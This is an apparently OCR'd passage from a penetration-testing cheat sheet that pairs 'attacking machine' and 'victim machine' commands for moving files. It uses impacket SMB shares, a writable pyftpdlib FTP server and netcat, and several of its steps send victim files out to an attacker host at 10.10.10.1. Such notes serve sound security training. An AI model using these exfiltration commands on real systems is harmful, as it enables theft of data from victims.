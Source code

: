 

        Attacking machine command:
        
        	
```        impacket-smbserver -smb2support test ```

        Victim machine command:
        
        	
```        copy \\10.10.10.1:8080\FiletoTransfer FiletoTransfer  ```

    Download victim files

        FTP

        With this method we will mount a temporary FTP in the folder where our file is located but this time with write permission.
        Later we will access from the victim and upload our file.



        Attacking machine command:
        
        	
```        python -m pyftpdlib -w ```

        Victim machine command:

```shell
        ftp
        open 10.10.10.1 2121
        anonymous
        put FiletoDownload
        bye
```

        Netcat

        This method is similar to the one used in netcat to upload files but in reverse. In order to make the transfer in this way we must have the netcat binary for our windows.



        Attacking machine command:
        
        	
```        nc -lvp 4444 > FiletoDownload ```

        Victim machine command:
        
        	
```        nc.exe 10.10.10.1 4444 -w 3 < FiletoDownload  ```

        SMB

        Through impacket-smbserver we will mount a smb folder on our machine that we will access from the victim machine to copy the file to be downloaded in our SMB folder



        Attacking machine command:
        
        	
```        impacket-smbserver -smb2support test ```

        Victim machine command:
        
        	
```        copy  FiletoDownload \\10.10.10.1:8080\FiletoDownload  ```
```